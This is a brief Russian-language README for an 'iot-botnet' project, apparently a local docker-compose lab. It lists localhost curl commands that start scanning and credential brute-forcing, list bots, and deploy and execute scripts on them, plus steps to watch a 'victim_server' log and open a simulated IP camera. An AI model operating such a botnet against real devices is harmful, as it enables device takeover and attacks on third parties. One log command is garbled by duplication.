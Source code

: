 # iot-botnet

Запуск
docker-compose up -d

Начать сканирование и подбор учетных данных
curl http://localhost:8080/start_scan
curl http://localhost:8080/stop_scan
curl http://localhost:8080/list_bots

Загрузить и выполнить скрипт на ботах
curl http://localhost:8080/deploy_scripts
curl http://localhost:8080/execute_scripts

Посмотреть логи атакуемого сервера
docker exec -it victim_server tail -f /var/log/victim/access.loger tail -f /var/log/victim/access.log

Зайти в web-интерфейс ip-камеры через браузер
http://localhost:8081/

